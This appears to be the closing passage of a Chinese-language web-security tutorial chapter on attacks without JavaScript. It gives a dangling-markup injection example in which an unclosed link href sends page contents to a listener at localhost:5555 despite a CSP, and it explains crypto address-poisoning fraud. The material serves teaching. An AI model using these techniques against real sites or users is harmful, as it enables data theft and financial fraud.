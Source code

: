 ``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none'; style-src 'none'; form-action 'none'; frame-src 'none';">
  <link rel=icon href="http://localhost:5555?q=
</head>
<body>
  <div>
  Hello, 
  <div>
    Your account balance is: 1337
  </div>
  <footer><img src="footer.png"></footer>
</div>
</body>
</html>
```

會收到的 request 是：

```
GET /?q=%3C/head%3E%3Cbody%3E%20%20%3Cdiv%3E%20%20Hello,%20%20%20%3Cdiv%3E%20%20%20%20Your%20account%20balance%20is:%201337%20%20%3C/div%3E%20%20%3Cfooter%3E%3Cimg%20src= HTTP/1.1
```

URL decode 之後就會看到原本的 HTML，順利把資料偷出來。

## 小結

比起之前提過的那些攻擊手法，單純只利用 HTML 來攻擊的門檻顯然更高，使用者可能需要先點擊連結或是按鈕，還需要搭配精心製作的釣魚網站等等，才能達成目的，偷取到有價值的資料。

但儘管如此，不得不承認這些手段還是有影響力的，而且千萬不要小看這種針對使用者習慣的攻擊。

舉個例子，在加密貨幣的世界中，你可以用其他人的身份轉 0 元給別人。例如說小明可以幫小華轉 0 元給小美，小美也可以幫小明轉 0 元給小華，只要金額是 0 元，你想怎麼轉就怎麼轉，而手續費是發起這個操作的人要付的。

按照常理來想，雖然可以幫其他人轉帳是件很奇怪的事情，但是誰會做這種事？小華跟小美的餘額都不會變，而小明自己虧了手續費 100 塊，他幹嘛這樣做？

可是一旦搭配了使用者平常轉帳的習慣，就變成了很有趣的攻擊手法。

區塊鏈上的帳號（地址）都是很長一串，像這樣：`0xa7B4BAC8f0f9692e56750aEFB5f6cB5516E90570`

所以在介面上顯示的時候，因為長度的關係可能只會顯示 `0xa7B.....0570`這樣前後幾碼而已，中間都用 ... 來代替。雖然說地址都是隨機產生的，要產生相同的地址幾乎是不可能，但如果只是前面跟後面幾位數相同的話，只要多花一些時間就可以產出來。

舉例來說，我可以產出這個地址：`0xa7Bf48749D2E4aA29e3209879956b9bAa9E90570`

有沒有注意到前後幾位數都一樣？因此這個地址在介面上顯示時，也會顯示 `0xa7B....0570`，跟前面的地址是一模一樣的。

而很多使用者在轉帳時，如果要轉的地址之前很常轉，那就習慣會去交易紀錄直接複製舊的交易的地址，因為方便又快嘛，而且我錢包都是自己在用的，怎麼可能有別人的交易紀錄？

假設 A 在使用的交易所的錢包地址就是上面的 `0xa7B4BAC8f0f9692e56750aEFB5f6cB5516E90570`，介面顯示是 `0xa7B....0570`，我就刻意做一個前後都一樣的錢包地址，並且用剛剛提到的 0 元轉帳，用 A 的帳號轉到這個假地址。

搭配上剛剛提到的使用者習慣，A 只要從交易紀錄複製貼上，就會複製到我創造的假地址，並且把錢轉到這個假錢包。

而實際上有這種習慣的人還真不少，甚至連全世界最大的加密貨幣交易幣安也在 2023 年 8 月時因為這個攻擊被騙走了 6 億台幣。

從這個案例中，我們可以看到有些單獨來看沒什麼影響力的小問題，搭配其他利用方式之後就會變得威力無窮。

第三章「不直接執行 JavaScript 的攻擊手法」就到這裡結束，下一章是「跨越限制攻擊其他網站」，會探討瀏覽器對網頁之間的交流到底有什麼樣的安全限制，以及我們該如何繞過它。
